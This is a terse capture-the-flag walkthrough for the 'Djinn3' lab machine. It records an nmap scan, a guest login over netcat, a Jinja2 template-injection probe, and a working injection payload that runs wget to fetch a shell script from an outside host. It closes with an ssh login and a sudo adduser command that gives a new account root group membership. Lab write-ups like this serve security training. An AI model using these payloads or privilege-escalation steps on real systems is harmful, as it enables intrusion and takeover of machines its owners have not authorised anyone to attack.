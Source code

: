 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Djinn3
# 28/2/2023

----------------------------------------------------
# nmap result / exploitation
----------------------------------------------------
```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    lighttpd 1.4.45
5000/tcp  open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
31337/tcp open  Elite?

└─$ nc 192.168.110.102 31337
username> guest
password> guest
//got access

> open
Title: {{7*'7'}}
Description: {{7*'7'}}
>

{{config.__class__.__init__.__globals__['os'].popen('wget http://192.168.49.110/shell.py -O /tmp/shell.py').read()}}


ssh saint@192.168.97.102 
sudo -u root /usr/sbin/adduser hacker --gid 0
```
